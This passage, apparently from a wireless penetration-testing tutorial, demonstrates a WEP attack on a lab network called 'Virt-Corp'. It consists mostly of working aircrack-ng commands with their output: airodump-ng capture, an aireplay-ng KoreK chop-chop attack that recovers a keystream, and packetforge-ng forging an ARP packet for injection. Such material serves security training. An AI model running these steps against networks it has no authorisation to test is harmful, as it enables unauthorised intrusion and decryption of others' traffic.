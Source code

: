 ```shell
sudo airodump-ng -c 3 --bssid 60:38:E0:71:E9:DC wlan0mon -w WEP

 CH  1 ][ Elapsed: 4 mins ][ 2024-08-10 19:01

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 60:38:E0:71:E9:DC  -47 100     2825       44    0   3   11   WEP  WEP         Virt-Corp

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 60:38:E0:71:E9:DC  00:c0:ca:98:3e:e0  -29    0 - 1      0    13847         Virt-Corp


```

Then, in a third terminal, we initiate either a fragmentation or KoreK chop chop attack. To start a KoreK chop chop attack, we use the following command, specifying the access point's BSSID with `-b` and our interface's MAC address with `-h`.

```shell
aireplay-ng -4 -b 60:38:E0:71:E9:DC -h 00:c0:ca:98:3e:e0 wlan0mon

Read 667 packets...

        Size: 392, FromDS: 1, ToDS: 0 (WEP)

              BSSID  =  60:38:E0:71:E9:DC
          Dest. MAC  =  00:c0:ca:98:3e:e0
         Source MAC  =  60:38:E0:71:E9:DC

Use this packet ? y

Offset  389 ( 0% done) | xor = 9A | pt = AF |   58 frames written in  1067ms
Offset  388 ( 0% done) | xor = B4 | pt = AB |  178 frames written in  3212ms
Offset  387 ( 1% done) | xor = F8 | pt = CB |  244 frames written in  4395ms
<snip>
Saving plaintext in replay_dec-1229-160018.cap
Saving keystream in replay_dec-1229-160018.xor

```

Once we have successfully captured the PRGA keystream to a `.xor` file, we will use `packetforge-ng` to forge a packet and inject it into the network with no stations. We do so with the following command, specifying the access point MAC with `-a`, our associated interface MAC with `-h`, our guessed source IP with `-l`, our guessed destination IP with `-k`, our replay file with `-y`, and write destination with `-w`. If we do not know the IP, we could just use `255.255.255.0` or `255.255.255.255`.

```shell
packetforge-ng -0 -a 60:38:e0:71:e9:dc -h 00:c0:ca:98:3e:e0 -k 192.168.1.1 -l 192.168.1.64 -y replay_dec-1229-160018.xor -w forgedarp.cap

Wrote packet to: forgedarp.cap

```
